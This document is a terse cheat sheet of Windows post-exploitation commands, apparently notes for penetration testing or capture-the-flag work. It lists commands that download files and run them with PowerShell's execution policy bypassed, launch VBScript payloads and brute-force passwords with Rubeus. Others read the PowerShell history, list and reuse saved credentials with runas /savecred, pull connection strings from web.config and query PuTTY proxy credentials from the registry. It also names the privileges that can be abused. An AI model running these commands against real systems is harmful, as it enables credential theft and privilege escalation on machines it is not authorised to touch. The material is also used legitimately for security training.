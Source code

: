 Get-Process

Get-LocalUser
Get-LocalGroup

Get-ScheduledTask

Invoke-WebRequest URL -OutFile FILENAME
(New-Object System.Net.WebClient).Downloadfile(URL, FILENAME)

Set-ExecutionPolicy Bypass -Scope Process
powershell -ExecutionPolicy Bypass -File FILENAME

cscript.exe payload.vbs
wscript payload.vbs
wscript /e:VBScript payload.txt

Rubeus.exe brute /password:Password1 /noticket

Powershell History
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

Saved Windows Credentials
cmdkey /list

runas /savecred /user:admin cmd.exe


IIS Configuration
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
find database connection strings on the file:

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString


Retrieve Credentials from Software: PuTTY
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

Scheduled Tasks
schtasks /query /tn vulntask /fo list /v

### Dangerous Privileges

- SeBackup
- SeRestore
- SeTakeOwnership
- SeImpersonate
- SeAssignPrimaryToken

get them:
whoami /priv

# VirtualBox
